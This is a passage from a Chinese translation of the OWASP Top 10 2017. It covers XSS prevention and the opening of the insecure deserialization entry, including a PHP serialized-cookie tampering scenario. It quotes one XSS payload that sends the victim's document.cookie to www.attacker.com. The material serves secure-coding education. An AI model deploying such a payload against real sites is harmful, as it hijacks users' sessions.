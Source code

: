```html
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

注意：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项。

#### 如何防止?

防止XSS需要将不可信数据与动态的浏览器内容区分开。这可以通过如下步骤实现：

- 使用设计上就会自动编码来解决XSS问题的框架，如：Ruby 3.0或 React JS。了解每个框架的XSS保护的局限性，并适当地处理未覆盖的用例。
- 为了避免反射式或存储式的XSS漏洞，最好的办法是根据HTML输出的上下文（包括：主体、属性、JavaScript、CSS或URL）对所有不可信的HTTP请求数据进行恰当的转义 。更多关于数据转义技术的信息见：[《OWASP Cheat Sheet ‘XSS Prevention’》在新窗口打开](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)。
- 在客户端修改浏览器文档时，为了避免DOM XSS攻击，最好的选择是实施上下文敏感数据编码。如果这种情况不能避免，可以采用[《OWASP Cheat Sheet ‘DOM based XSS Prevention ‘》在新窗口打开](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)描述的类似上下文敏感的转义技术应用于浏览器API。
- 使用内容安全策略（[CSP在新窗口打开](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)）是对抗XSS的深度防御策略。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径遍历覆盖和允许在网络中传输的易受攻击的库），则该策略是有效的。

### A8:2017 – 不安全的反序列化

> 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

#### 知识点简介

如果反序列化进攻者提供的敌意或者篡改过的对象将会使将应用程序和API变的脆弱。这可能导致两种主要类型的攻击：

- 如果应用中存在可以在反序列化过程中或者之后被改变行为的类，则攻击者可以通过改变应用逻辑或者实现远程代码执行攻击。我们将其称为对象和数据结构攻击。
- 典型的数据篡改攻击，如访问控制相关的攻击，其中使用了现有的数据结构，但内容发生了变化。

在应用程序中，序列化可能被用于:

- 远程和进程间通信（RPC / IPC）
- 连线协议、Web服务、消息代理
- 缓存/持久性
- 数据库、缓存服务器、文件系统
- HTTP cookie、HTML表单参数、API身份验证令牌

#### 案例场景

- 场景 #1：

一个React应用程序调用了一组Spring Boot微服务。作为功能性程序员，他们试图确保他们的代码是不可变的。他们提出的解决方法是序列化用户状态，并在每次请求时来回传递。攻击者注意到了“R00”Java对象签名，并使用Java Serial Killer工具在应用服务器上获得远程代码执行。

- 场景 #2：

一个PHP论坛使用PHP对象序列化来保存一个“超级”cookie。该cookie包含了用户的用户ID、角色、密码哈希和其他状态：

```json
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";
i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

攻击者更改序列化对象以授予自己为admin权限：
